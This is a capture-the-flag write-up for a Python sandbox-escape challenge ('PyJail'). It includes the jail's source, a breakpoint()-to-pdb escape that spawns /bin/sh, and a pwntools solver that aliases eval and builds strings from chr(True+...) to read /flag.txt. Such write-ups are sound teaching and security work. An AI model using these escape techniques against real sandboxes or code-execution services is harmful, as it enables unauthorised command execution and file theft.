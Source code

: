 # PyJail [87 Solves]

## Description

> Can you break out of this python jail? 🐍
>
> P.S. flag is at /flag.txt
>
> Author: 0xM4hm0ud
>
> jail.ctf.intigriti.io 1337 || jail2.ctf.intigriti.io 1337
>
> Attachments: jail.py

<details><summary>jail.py</summary>

```python
import ast
import unicodedata

blacklist = "0123456789[]\"\'._"
check = lambda x: any(w in blacklist for w in x)

def normalize_code(code):
    return unicodedata.normalize('NFKC', code)

def execute_code(code):
    try:
        normalized_code = normalize_code(code)
        parsed = ast.parse(code)
        for node in ast.walk(parsed):
            if isinstance(node, ast.Call):
                if isinstance(node.func, ast.Name):
                    if node.func.id in ("os","system","eval","exec","input","open"):
                        return "Access denied!"
            elif isinstance(node, ast.Import):
                return "No imports for you!"
        if check(code):
            return "Hey, no hacking!"
        else:
            return exec(normalized_code, {}, {})
    except Exception as e:
        return str(e)

if __name__ == "__main__":
    while True:
        user_code = input(">> ")
        if user_code.lower() == 'quit':
            break
        result = execute_code(user_code)
        print("Result:", result)
```

</details>

## Flag

INTIGRITI{Br4ak_br4ak_Br34kp01nt_ftw}

## Solution 1

This solution is based on using `breakpoint()`.

Input `breakpoint()` to start [pdb](https://docs.python.org/3/library/pdb.html) (Python Debugger), then got a shell by `import os; os.system("/bin/sh")`.

```console
root@kali:~/ctf/1337UP/Web/My_Music# nc jail.ctf.intigriti.io 1337
>> breakpoint()
--Return--
> <string>(1)<module>()->None
(Pdb) import os; os.system("/bin/sh")
/bin/sh: 0: can't access tty; job control turned off
# cat /flag.txt
INTIGRITI{Br4ak_br4ak_Br34kp01nt_ftw}#
```

## Solution 2

This is the unintended soltuion.

The input Python code is executed as `exec(normalized_code, {}, {})`, but there are some restrictions on the allowed characters (blacklist `0123456789[]"'._`) and the functions named `os`,`system`,`eval`,`exec`,`input` and `open`.

cannot do:

- `os.system("ls")` because of `.` and `"`
- `mydict['']` because of `[` and `'`
- `__class__` becasue of `_`
- `obj.method` because of `.`
- String literals with `'` and `"`

can do:

- `True`, `False`
- Operators: `+`, `-`, `%`, etc...
- variable assignment because `=` is not blacklisted.
- call global function is enable, except for the function named `os`,`system`,`eval`,`exec`,`input` and `open`. e.g. `print`, `chr`, etc...

We can assign `eval` function to a variable named `myeval` such as `myeval = eval`.
This can bypass the following restriction.

```python
                    if node.func.id in ("os","system","eval","exec","input","open"):
                        return "Access denied!"
```

Tested:

```python
>>> [node.func.id for node in ast.walk(ast.parse("""myeval=eval, myeval(1+1)""")) if isinstance(node, ast.Call) and isinstance(node.func, ast.Name)]
['myeval']
```

Also, I couldn't execute `eval("code")` because `'` and `"` is blacklisted.
However, by using that `True` is casted to `1` and `chr()`, I can create arbitrary strings.
such as `chr(True+True+...+True) + chr(True+True+...+True) + chr(True+...)`

Tested:

```python
>>> True + True
2
>>> chr(True)
'\x01'
>>> chr(True+True)
'\x02'
>>> chr(65) + chr(66)
'AB'
```

By using these, you can create Python code that prints /flag.txt to standard output and obtain the flag.

solver.py

```python
from pwn import remote

HOST = "jail.ctf.intigriti.io"
PORT = 1337

pycode = """print(open('/flag.txt').read())"""
pycode = "+".join(
    ["chr(" + "+".join(["True" for _ in range(ord(c))]) + ")" for c in pycode]
)

payload = f"myeval=eval; myeval({pycode})"

io = remote(HOST, PORT)
io.sendlineafter(b">> ", payload.encode())
io.interactive("")
```

```console
root@kali:~/ctf/1337UP/Misc/PyJail# python3 solver.py
[+] Opening connection to jail.ctf.intigriti.io on port 1337: Done
[*] Switching to interactive mode
INTIGRITI{Br4ak_br4ak_Br34kp01nt_ftw}
Result: None
>>
[*] Closed connection to jail.ctf.intigriti.io port 1337
```

## References

- [Escaping the PyJail](https://lbarman.ch/blog/pyjail/)
